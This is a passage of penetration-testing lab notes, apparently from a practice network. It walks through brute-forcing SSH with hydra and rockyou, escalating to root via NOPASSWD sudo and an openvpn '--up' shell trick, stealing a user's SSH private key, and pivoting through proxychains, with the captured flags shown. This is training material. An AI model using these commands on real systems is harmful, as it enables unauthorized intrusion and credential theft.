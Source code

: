 # NOPASSWD :D
offsec@WEB01:~$ sudo su
root@WEB01:~# cat proof.txt
9ae9516fbba424c41bf440a948e093db

# Now we left VM05 and VM08, I cant access to VM08 using domain admin.. Lets go with VM05 VPN server first
hydra -L user.txt  -P /usr/share/wordlists/rockyou.txt  ssh://192.168.219.122
...
[22][ssh] host: 192.168.219.122   login: offsec   password: password
...
ssh offsec@192.168.219.122
offsec:~$ cat local.txt
3ed505103653c81acf6e590cb7a1da89
offsec:~$ sudo -l
...
Matching Defaults entries for offsec on vpn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User offsec may run the following commands on vpn:
    (ALL : ALL) /usr/sbin/openvpn
...
offsec:~$ cat .lhistory
...
 sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
exit
...
# Should be the GTFObins
offsec:~$ sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
whoami
root
pwd
/root
cat proof.txt
8896aea8de995db514c706a43901878a
cd /home
ls -al
mario offsec
cd mario
cd .ssh
cat id_rsa

# Lets use mario's id_rsa from VPN
mario-idrsa
# Troubleshoot!
# Use ssh-keygen from putty to convert it into OpenSSH (force new format)
# Save it to mariokey
chmod 600 mariokey
proxychains -q ssh -i mariokey mario@172.16.219.14
cat local.txt
6b8884d0d472f98a10a6419dd29df638